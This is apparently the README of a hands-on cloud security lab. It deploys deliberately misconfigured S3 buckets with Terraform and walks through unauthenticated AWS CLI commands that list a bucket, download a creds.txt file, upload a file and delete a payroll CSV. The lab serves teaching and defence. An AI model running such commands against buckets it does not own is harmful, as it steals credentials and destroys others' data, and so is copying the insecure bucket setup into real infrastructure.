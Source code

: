 # S3 Unauthenticated Bucket Access

# In the bustling corridors of Cloud Innovators, a cutting-edge tech organization, two interns named Alice and Bob joined the ranks. Eager to prove themselves, they were tasked with deploying S3 buckets to store important company files. Little did they know that their actions would set the stage for a cloud security saga. Alice created the bucket MisconfiguredBucket and Bob misconfiguredacl bucket

# Now that you've journeyed through the gripping story of Cloud Innovators, it's time for you, to immerse yourself as an attacker and how to act as defense in such scenarios in hands-on learning.

* Explore Misconfigurations in "MisconfiguredBucket":

Enter the realm of the misconfigured S3 bucket, "alice-misconfiguredbucket," where an attacker gained unauthorized access. Dive into the hands-on lab and discover how misconfigurations can lead to CRUD operations on sensitive files. Learn to secure your buckets against potential threats.

* Unravel the Mystery of "misconfiguredacl":

Venture into the kingdom of "misconfiguredacl," where Authenticated Users gained unintended FULL_CONTROL permissions. Engage in the lab to unravel the mystery, understand ACL misconfigurations, and fortify your buckets against unauthorized access.


## Follow the below instructions given to solve this Lab

### please install the below cli tools 


* AWS CLI

```bash
sudo apt-get install awscli
```
* Terraform - click on the below link for further help on on installing 

```bash
https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
```

* Step 1 Clone the repository 

```bash
git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 2: Change Directory

```bash
cd s3misconfiguration/
```
* Step 3: Initialise terraform 

```bash
terraform init
```

* Step 4: Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 5: Export bucket name created by Alice 

```bash
export s3bucket=<bucketname> 
```

* Step 6: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket --no-sign-request
```
* Step 7: Now lets perform all the possible attack scenarios

* Step 8: Lets first download the fishy files - to your current working directory

```bash
aws s3 cp s3://$s3bucket/creds.txt . --no-sign-request 

```
* To download all the files from the bucket use sync command

```bash
aws s3 sync s3://$s3bucket /home/abhi/seasides/test/
```

* Step 9: Let's upload a new file 

```bash
aws s3 cp seasides.jpeg s3://$s3bucket --no-sign-request 
```

* Step 10: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/emp_pay_dont_delete.csv --no-sign-request 
```


* By this we know that the attacker has performed all the malicious functionalities ie, CRUD operations which leads to Vulnerabilities such as 
* Broken Authentication
* Sensitive Information Disclosure 
